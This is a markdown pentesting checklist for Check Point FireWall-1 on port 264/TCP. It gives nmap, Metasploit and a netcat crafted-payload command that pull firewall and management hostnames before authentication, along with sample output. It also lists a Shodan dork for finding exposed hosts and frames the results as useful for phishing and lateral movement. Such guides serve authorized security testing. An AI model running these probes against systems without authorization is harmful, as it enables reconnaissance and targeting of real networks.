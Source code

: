 # Check Point FireWall-1 (Port 264) Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating port 264/TCP (Check Point FireWall-1), I realistically expect to find:

- [ ] Firewall hostname (CN)
- [ ] Management Station / SmartCenter hostname
- [ ] Confirmation the target is a CheckPoint device
- [ ] Possible exposure of ICA certificate naming info
- [ ] Potential for fingerprinting firewall topology

---

## ✅ Check Point 264 Pentest Checklist

- [ ] **Identify Open Port 264**
  - Confirm service is listening:
    ```bash
    nmap -p 264 <IP>
    ```

- [ ] **Run Metasploit Module to Grab Hostname**
  - Use auxiliary module to pull firewall and management names:
    ```bash
    msfconsole
    use auxiliary/gather/checkpoint_hostname
    set RHOST <IP>
    run
    ```

- [ ] **Manual Request with Netcat**
  - Use crafted payload to extract CN info:
    ```bash
    printf '\x51\x00\x00\x00\x00\x00\x00\x21\x00\x00\x00\x0bsecuremote\x00' | nc -q 1 <IP> 264 | grep -a CN | cut -c 2-
    ```

- [ ] **Review ICA Certificate Details**
  - Inspect output for:
    - CN (Common Name)
    - O (Organization)
    - ICA naming that may help in social engineering

---

## ✅ Check Point 264 Useful Commands

- **Metasploit Example**
    ```bash
    use auxiliary/gather/checkpoint_hostname
    set RHOST <IP>
    run
    ```

    **Sample Output:**
    ```
    [*] Attempting to contact Checkpoint FW1 SecuRemote Topology service...
    [+] Appears to be a CheckPoint Firewall...
    [+] Firewall Host: FIREFIGHTER-SEC
    [+] SmartCenter Host: FIREFIGHTER-MGMT.example.com
    [*] Auxiliary module execution completed
    ```

- **Manual Netcat Example**
    ```bash
    printf '\x51\x00\x00\x00\x00\x00\x00\x21\x00\x00\x00\x0bsecuremote\x00' | nc -q 1 <IP> 264
    ```

    **Sample Output:**
    ```
    CN=Panama,O=MGMTT.srv.rxfrmi
    ```

---

## ✅ Notes

- Check Point FireWall-1 often exposes management and topology info on **264/TCP** before auth.
- Fingerprinting this service can reveal valuable naming and infrastructure details.
- Results can aid in phishing, social engineering, or internal mapping for lateral movement.
- Always ensure you have authorization before running these tests.

---

## ✅ Shodan Dork

- `port:264`
